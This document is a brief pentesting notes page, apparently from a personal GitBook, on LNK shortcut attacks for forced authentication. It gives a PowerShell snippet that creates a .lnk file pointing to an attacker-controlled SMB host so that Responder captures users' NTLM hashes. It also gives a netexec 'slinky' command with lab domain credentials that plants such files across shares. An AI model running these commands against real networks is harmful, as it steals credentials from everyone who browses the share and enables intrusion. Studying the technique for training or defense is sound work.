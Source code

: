 # 🗄️ LNK File Attacks

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.138.149\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

What will happen if we have responder listening and this file is triggered, we will get a hash and force auth:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

good example:

{% embed url="https://infinitelogins.com/2020/12/17/capturing-password-hashes-via-malicious-lnk-files/" %}

everyone who will interact with this share will send us a hash, very malicious&#x20;

A good thing to know is :

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```

{% embed url="https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky" %}

{% embed url="https://www.netexec.wiki/" %}

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf" %}

